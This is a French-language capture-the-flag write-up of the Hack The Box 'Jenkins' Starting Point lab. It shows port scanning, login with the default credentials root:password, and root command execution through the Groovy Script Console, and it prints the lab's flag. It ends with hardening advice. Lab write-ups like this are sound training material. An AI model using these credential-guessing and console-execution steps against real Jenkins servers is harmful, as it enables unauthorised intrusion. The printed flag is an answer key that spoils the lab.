





> Plateforme : **Hack The Box** — Starting Point (Tier 1)

## Informations

- **Catégorie :** Web (Jenkins — Groovy Script Console)
- **Difficulté :** Very Easy
- **Auteur du write-up :** 3ch0
- **Service :** `8080/tcp` (Jetty 9.4.39.v20210325 → **Jenkins 2.289.1**)
- **Flag :** `9cdfb439c7876e703e307864c9167a15`

---

## 1. Reconnaissance

```bash
nmap -sC -sV 10.129.8.64
```

```text
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry
|_http-server-header: Jetty(9.4.39.v20210325)
```

Un seul service : un serveur web **Jetty** sur le port `8080`.

---

## 2. Énumération web

```bash
ffuf -u http://10.129.8.64:8080/FUZZ \
  -w /usr/share/wordlists/dirb/common.txt \
  -e .php,.txt,.html,.bak -mc all -fw 306
```

```text
login        [Status: 200]
logout       [Status: 302]
assets       [Status: 302]
robots.txt   [Status: 200]
```



L'accès à la racine redirige vers une page de **login**. On reconnaît l'interface de **Jenkins**, un serveur d'automatisation CI/CD écrit en Java.



Wappalyzer confirme la version : **Jenkins 2.289.1**.



---

## 3. Login par identifiants faibles

Jenkins n'impose pas de politique de mot de passe, et l'instance garde un couple par défaut. Parmi les combinaisons courantes testées :

```text
root:password   → connexion réussie
```



Accès au dashboard administrateur obtenu.

---

## 4. RCE via la console Groovy

Jenkins expose une **console de script Groovy** (Manage Jenkins → Script Console) qui exécute du code côté serveur, avec les droits du service :

```text
http://10.129.8.64:8080/script
```

On confirme l'exécution :

```text
println "id".execute().text
```

```text
uid=0(root) gid=0(root) groups=0(root)
```

**Le service tourne en root** → RCE root immédiate, aucune escalade nécessaire.



---

## 5. Flag

```text
println "ls -la /root".execute().text
```

```text
-r--------  1 root root 33 Mar 12 2021 flag.txt
```

```text
println "cat /root/flag.txt".execute().text
```

```text
9cdfb439c7876e703e307864c9167a15
```

**Flag :** `9cdfb439c7876e703e307864c9167a15`

---

## Récapitulatif

1. **nmap** → port 8080, Jetty → interface **Jenkins 2.289.1**.
2. `ffuf` → page de `login`.
3. Identifiants faibles **`root:password`** → accès admin.
4. **Script Console Groovy** (`/script`) → exécution de code en **root**.
5. `cat /root/flag.txt` → flag.

> **Concept clé :** Jenkins est une cible de choix car sa **console de script Groovy** est, par conception, une exécution de code arbitraire côté serveur pour tout utilisateur administrateur — ce n'est pas une faille mais une fonctionnalité, qui devient critique dès que l'accès admin est trivial. Ici deux erreurs se combinent : un **identifiant par défaut** (`root:password`) et un **service lancé en root**, si bien que la RCE donne directement les pleins pouvoirs, sans aucune escalade. La défense tient en trois points : des identifiants forts et pas de compte par défaut, restreindre l'accès à la Script Console (matrice d'autorisations Jenkins), et surtout **ne jamais faire tourner Jenkins en root** — un service CI/CD devrait s'exécuter sous un compte dédié non privilégié.

---

_**— 3ch0**_
